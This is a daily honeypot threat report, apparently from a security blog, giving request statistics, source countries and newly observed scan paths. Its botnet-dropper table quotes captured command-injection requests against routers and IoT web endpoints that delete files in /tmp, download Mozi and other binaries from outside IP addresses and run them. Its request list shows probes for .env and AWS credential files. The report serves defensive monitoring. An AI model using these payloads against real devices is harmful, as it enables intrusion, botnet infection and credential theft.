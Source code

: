 ```yaml
---
title: "Report: 2025-05-03 "
date: 2025-05-03
desciption: "Report: 2025-05-03" 
tags: [repport, daily]
---
```



# Daily Report: 2025-05-03 
# Executive summary
interaction report on http service of various Hhoneypot around the world. 

- [Executive summary](#executive_summary)
- [OT report simplified](#ot_simplified_report)
- [Botnet dropper behaviour](#botnet_dropper_behaviour)
- [List of request](#request)
- [List of country_iso_code](#country_iso_code)

## executive_summary

In today’s repport, we detected 5 stage 1 IP address(es), linked to 5 dropper URL(s).  

There are 27 new requests that have never been observed before (these were added to the monitored [request database.](https://blog.shoggoth.industries/database/request_database/)).  

A total of 1388 requests were recorded during the day, originating from 5 different countries, with a peak of 274 requests coming from NL.


## ot_simplified_report
simplified report for medium-level interactions with honeypots that mimic industrial systems (web site loading, or interactions with the website), for more contact us on social@shoggoth.industries.
| source_country   | targeted_country   |
|:-----------------|:-------------------|
| US               | Dubai              |
| US               | Israel             |

## botnet_dropper_behaviour
| remote_addr    | request                                                                                                                                                                                                                                                                                                    |
|:---------------|:-----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------|
| 79.116.34.227  | GET /shell?cd+/tmp;rm+-rf+*;wget+176.65.148.180/jaws;sh+/tmp/jaws HTTP/1.1                                                                                                                                                                                                                                 |
| 122.97.214.128 | GET /shell?cd+/tmp;rm+-rf+*;wget+http://102.97.172.58:47010/Mozi.a;chmod+777+Mozi.a;/tmp/Mozi.a+jaws HTTP/1.1                                                                                                                                                                                              |
| 122.97.137.166 | GET /setup.cgi?next_file=netgear.cfg&todo=syscmd&cmd=rm+-rf+/tmp/*;wget+http://102.97.194.141:32859/Mozi.m+-O+/tmp/netgear;sh+netgear&curpath=/&currentsetting.htm=1 HTTP/1.0                                                                                                                              |
| 45.95.147.209  | GET /cgi-bin/luci/;stok=/locale?form=country&operation=write&country=$(id%3E%60cd+%2Ftmp%3B+rm+-rf+sh%3B+wget+http%3A%2F%2F176.65.148.234%2Fsh%3B+chmod+777+sh%3B+.%2Fsh+tplink%3B+rm+-rf+sh%60) HTTP/1.1                                                                                                  |
| 185.218.84.39  | GET /shell?killall+-9+arm7;killall+-9+arm4;killall+-9+arm;killall+-9+/bin/sh;killall+-9+/bin/sh;killall+-9+/z/bin;killall+-9+/bin/bash;cd+/tmp;rm+drea4+arm7;wget+http:/\x5C/176.65.144.76/efefa7;chmod+777+efefa7;./efefa7+jaws;wget+http:/\x5C/176.65.144.76/drea4;chmod+777+drea4;./drea4+jaws HTTP/1.1 |

## request

The list of requests presented here are those that have not yet been yet integrated into the [request database.](https://blog.shoggoth.industries/database/request_database/)

|     |   number_of_occurence | request                                                          |
|----:|----------------------:|:-----------------------------------------------------------------|
|  68 |                     4 | GET /developmentserver/metadatauploader HTTP/1.1                 |
| 194 |                     1 | GET /system.ini?loginuse=LOGIN&?loginpas=PASS HTTP/1.1           |
| 207 |                     1 | GET /cron/aws_ses.env HTTP/1.1                                   |
| 214 |                     1 | GET /secrets/aws_ses.env HTTP/1.1                                |
| 221 |                     1 | GET /cli/aws_ses.env HTTP/1.1                                    |
| 230 |                     1 | GET /aws-sns/.env HTTP/1.1                                       |
| 231 |                     1 | GET /var/lib/aws/sns.env HTTP/1.1                                |
| 232 |                     1 | GET /var/aws/ses.env HTTP/1.1                                    |
| 244 |                     1 | GET /aws-ses/.env HTTP/1.1                                       |
| 246 |                     1 | GET /cli/aws_sns.env HTTP/1.1                                    |
| 247 |                     1 | GET /.sendgrind.env HTTP/1.1                                     |
| 248 |                     1 | GET /var/lib/aws/ses.env HTTP/1.1                                |
| 259 |                     1 | GET /src/tests/fixtures/typeScriptVisualizeProject/.env HTTP/1.1 |
| 262 |                     1 | GET /secret/aws_ses.env HTTP/1.1                                 |
| 267 |                     1 | GET /storage/aws_ses.env HTTP/1.1                                |
| 271 |                     1 | GET /opt/aws/ses.env HTTP/1.1                                    |
| 276 |                     1 | GET /var/www/aws-sns.env HTTP/1.1                                |
| 281 |                     1 | GET /data/aws/ses.env HTTP/1.1                                   |
| 282 |                     1 | GET /src/tests/fixtures/typeScriptProject/.env HTTP/1.1          |
| 309 |                     1 | GET /var/aws/sns.env HTTP/1.1                                    |
| 310 |                     1 | GET /storage/aws_sns.env HTTP/1.1                                |
| 314 |                     1 | GET /secret/aws_sns.env HTTP/1.1                                 |
| 319 |                     1 | GET /opt/aws/sns.env HTTP/1.1                                    |
| 323 |                     1 | GET /src/tests/fixtures/instanceWithDependentSteps/.env HTTP/1.1 |
| 330 |                     1 | GET /secrets/aws_sns.env HTTP/1.1                                |
| 344 |                     1 | GET /cron/aws_sns.env HTTP/1.1                                   |
| 350 |                     1 | GET /data/aws/sns.env HTTP/1.1                                   |

## country_iso_code

|    |   number_of_occurence | country_iso_code   |
|---:|----------------------:|:-------------------|
|  0 |                   274 | NL                 |
|  1 |                   239 | US                 |
|  2 |                   219 | GB                 |
|  3 |                   166 | BG                 |
|  4 |                    70 | SC                 |
|  5 |                    62 | CH                 |
|  6 |                    56 | CN                 |
|  7 |                    47 | VN                 |
|  8 |                    39 | PL                 |
|  9 |                    32 | HK                 |
| 10 |                    29 | DE                 |
| 11 |                    28 | IN                 |
| 12 |                    16 | KR                 |
| 13 |                    12 | CA                 |
| 14 |                    11 | AZ                 |
| 15 |                    10 | SG                 |
| 16 |                    10 | UA                 |
| 17 |                     8 | CZ                 |
| 18 |                     7 | UZ                 |
| 19 |                     6 | HR                 |
| 20 |                     4 | GH                 |
| 21 |                     4 | AO                 |
| 22 |                     4 | EE                 |
| 23 |                     4 | JP                 |
| 24 |                     3 | BE                 |
| 25 |                     3 | PT                 |
| 26 |                     3 | FR                 |
| 27 |                     2 | DO                 |
| 28 |                     2 | PE                 |
| 29 |                     2 | KW                 |
| 30 |                     2 | TR                 |
| 31 |                     2 | ES                 |
| 32 |                     2 | IT                 |
| 33 |                     1 | LT                 |
| 34 |                     1 | HU                 |
| 35 |                     1 | AU                 |
| 36 |                     1 | DK                 |
| 37 |                     1 | ID                 |
| 38 |                     1 | MC                 |
| 39 |                     1 | BR                 |
| 40 |                     1 | RU                 |
| 41 |                     1 | AR                 |
| 42 |                     1 | SE                 |
